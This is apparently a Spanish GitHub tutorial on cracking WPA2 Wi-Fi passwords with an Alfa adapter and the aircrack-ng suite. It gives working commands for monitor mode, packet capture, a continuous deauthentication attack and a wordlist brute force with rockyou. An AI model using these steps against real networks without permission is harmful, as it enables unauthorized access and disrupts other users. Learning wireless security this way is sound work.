

# Alfa AWUS036AC
    
   Cracking WPA2

### WiFi Passwords

  
  
## Requisitos

Antes de nada, deberíamos de instalar los drivers necesarios de la antena ya que sin ellos no podremos usar el modo monitor.
En este caso he usado el diccionario Rockyou que viene preinstalado en kali linux.

  

## Comandos Utilizados:
    
   Ver versión del sistema:
        
       cat /etc/os-release
       
       uname -a
   
   Ver interfaces:
   
       iwconfig
   
   Matar procesos:
    
       sudo airmon-ng check kill

   Iniciar modo monitor:
   
       sudo airmon-ng start wlan0
       
   Verificar que modo está en uso:
   
       sudo airmon-ng
       iwconfig
   
   Obtener dirección MAC y el canal del AP:
   
       sudo airodump-ng wlan0
       sudo airodump-ng -w hack1 -c 2 --bssid 00:00:00:00:00:00 wlan0 
    
   2nd Window - deauth attack:
   
       sudo aireplay-ng --deauth 0 -a 00:00:00:00:00:00 wlan0
   
   Abrir Wireshark para analizar el archivo capturado:
   
       wireshark hack1-01.cap
   
   Filtro de mensajes usado en wireshark:
   
       eapol
   
   Stop modo monitor:
   
       airmon-ng stop wlan0

   Cambiar canal:
   
       sudo airmon-ng wlan0 channel X

   Fuerza bruta:
   
       sudo aircrack-ng capture1-01.cap -w /usr/share/wordlists/rockyou.txt

# How To

Listando versión del sistema

Listando interfaces

Matando procesos para evitar conflictos y activamos el modo monitor

Ponemos a capturar las redes disponibles

Una vez elegido nuestro objetivo empezamos a esnifar paquetes

A la espera de que se conecte un cliente para deautenticarlo y capturar el handshake

Empezamos el ataque deauth para forzar el handshake

Se produce el handshake….

Comprobamos que efectivamente nos da los datos de la clave WPA

Paramos la red wlan0 para deshabilitar el modo monitor

Comenzamos el crackeo de la clave WPA de nuestra captura de wireshark usando el diccionario rockyou.txt

Y como podemos ver nuestro ataque ha tenido éxito, la contraseña se encontraba en la posición 331 de la lista

**Autor:** [AlbertoMiñan](https://github.com/albertominan)

